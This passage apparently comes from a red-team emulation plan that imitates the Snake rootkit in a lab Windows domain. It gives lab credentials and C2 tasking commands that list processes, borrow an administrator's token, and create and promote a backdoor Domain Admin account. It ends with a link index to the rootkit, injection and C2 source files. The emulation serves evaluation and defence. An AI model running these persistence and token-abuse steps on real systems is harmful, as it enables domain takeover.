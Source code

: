 | Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin | Producer2! |

* A new powershell window should pop up. Run the following command to ensure that you are running as `nk\ZilvinasAdmin`:
```pwsh
whoami
```

:arrow_right: Return to the Kali C2 server

* From the lower terminal window, task Snake to enumerate running processes on the machine to discover processes under `ZilvinasAdmin`.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that we find processes running under `ZilvinasAdmin`

```bash
grep 'NK\\ZilvinasAdmin' logs.txt -i 
```

* This should return output similar to the following:
  * > ```
    > powershell.exe                8152 RDP-Tcp#2                  3     83,280 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
    > conhost.exe                    312 RDP-Tcp#2                  3     17,356 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
    > ```

* Wait 1 minute, then instruct Snake to create a new domain user `Leshy` using an access token from one of the `ZilvinasAdmin` processes. `Leshy` will be used as a backdoor domain admin account for persistence on the domain.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net user leshy Password12345 /add /domain", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute, then instruct Snake to add `Leshy` to the `Domain Admins` group.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net group \"Domain Admins\" leshy /add /domain", "runas": "nk\\zilvinasadmin"}'
```

### :moyai: Source Code
* [Snake Installer](SnakeInstaller_README.md)
  * [Privilege Escalation](privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](main.cpp#L63)
  * [Start Snake Rootkit Driver](driver.cpp#L111)
* [Snake Rootkit](Snake_README.md)
  * [Driver](driver.c#L76)
  * [Function Hooking](hooks.c#L31)
    * [Infinity Hook](libinfinityhook_README.md)
  * [Drop DLL](filesystem.cpp#L22)
  * [Trigger injection on network request](wfp.cpp#L276)
  * [Inject Usermodule DLL](inject.cpp#L30)
* [Snake Usermodule DLL](UserModule_README.md)
  * [C2 communications over HTTP](comms_http.cpp#L237)
  * [Task download](comms_http.cpp#L237)
  * [Task execution for generic process](execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](execute.cpp#L337)
  * [Token duplication](execute_token.cpp#L284)
  * [Payload download](comms_http.cpp#L604)
  * [File Upload](comms_http.cpp#L359)
